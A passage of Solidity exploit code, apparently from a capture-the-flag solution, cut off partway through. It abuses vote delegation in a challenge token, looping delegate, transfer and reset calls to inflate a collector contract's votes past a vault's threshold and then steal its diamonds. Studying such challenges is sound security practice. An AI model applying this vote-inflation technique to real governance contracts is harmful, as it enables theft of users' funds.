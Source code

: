 <br />

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import "src/Challenge.sol";
import "src/Vault.sol";
import "src/Diamond.sol";
import "src/HexensCoin.sol";
import "forge-std/Script.sol";
import {ERC20} from "src/openzeppelin-contracts/token/ERC20/ERC20.sol";

contract Exploit {
    // Challenge contracts
    Challenge public setup;
    Vault public vault;
    HexensCoin public hexensCoin;

    constructor(Challenge _setup) {
        // Initialize challenge contracts
        setup = _setup;
        vault = setup.vault();
        hexensCoin = setup.hexensCoin();

        // Claim initial hexensCoin tokens
        setup.claim();
    }

    function exploit() public {
        // Create a contract to hoard votes
        VoteCollector voteCollector = new VoteCollector(setup);

        // Loop while VoteCollector has not enough votes
        while (
            hexensCoin.getCurrentVotes(address(voteCollector)) <
            vault.AUTHORITY_THRESHOLD()
        ) {
            // Add our votes to VoteCollector
            hexensCoin.delegate(address(voteCollector));

            // Set our delegatee to address(0)
            hexensCoin.transfer(address(voteCollector), setup.HEXENS_COINS());
            hexensCoin.delegate(address(0));

            // Regain our hexensCoin tokens
            hexensCoin.transferFrom(
                address(voteCollector),
                address(this),
                setup.HEXENS_COINS()
            );
        }

        // When VoteCollector has enough votes, steal the vault's diamonds
        voteCollector.stealDiamonds();
    }
}

contract VoteCollector {
    // Challenge contracts
    Challenge public setup;
    Vault public vault;
    Diamond public diamond;
    HexensCoin public hexensCoin;
```